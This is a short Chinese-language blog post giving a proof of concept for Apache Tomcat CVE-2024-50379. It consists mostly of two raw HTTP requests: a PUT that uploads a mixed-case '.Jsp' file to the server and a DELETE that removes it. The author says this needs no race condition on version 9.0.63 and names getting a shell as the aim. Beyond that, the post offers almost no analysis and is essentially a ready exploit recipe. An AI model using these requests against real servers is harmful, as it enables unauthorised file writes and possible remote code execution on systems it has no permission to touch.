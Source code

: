#  Apache Tomcat CVE-2024-50379   
原创 e0mlja  e0m安全屋   2024-12-18 06:43  
  
poc  
  
一开始说的竞争 只测了一个版本，不需要竞争，直接传  
  
（原本猜测是put上去了会再删除所以需要竞争去get getshell的 测试版本9.0.63不需要 代码也没有看到哪里会有删除文件的操作，朴实无华的put）  
  
文件上传  
```
PUT /dsd.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Sec-Fetch-Dest: document
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Encoding: gzip, deflate, br, zstd
Cookie: OFBiz.Visitor=10000; uid=11221|1732611643799
Sec-Fetch-Mode: navigate
Content-Length: 14
Connection: keep-alive
123123sssasdad
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMWlIK3IRgNxiasbZxn9iayqu3Z3qzs4lL2PWiayciaBCbxuJBApChbca6w5yDlibNOtL0iceJ8hpECaISPA/640?wx_fmt=png&from=appmsg "")  
  
开启readonly，可以写文件(成功就201新建 或者204覆盖)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMWlIK3IRgNxiasbZxn9iayqu3ULbWPqa3lH1ic9vg5DN49ebDJES8JYlfLjTmice0jhLicPic6m3HtLLeAA/640?wx_fmt=png&from=appmsg "")  
  
文件删除  
```
DELETE /dsd.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Sec-Fetch-Dest: document
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Encoding: gzip, deflate, br, zstd
Cookie: OFBiz.Visitor=10000; uid=11221|1732611643799
Sec-Fetch-Mode: navigate
Content-Length: 14
Connection: keep-alive
123123sssasdad
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMWlIK3IRgNxiasbZxn9iayqu3CZGKLqpCicIwSjVEia0UnKTsiaVq6PE0FNGCnRnONbhU1yIw4WdH6Q0KA/640?wx_fmt=png&from=appmsg "")  
  
  
原理简单 不再分析  
  
  
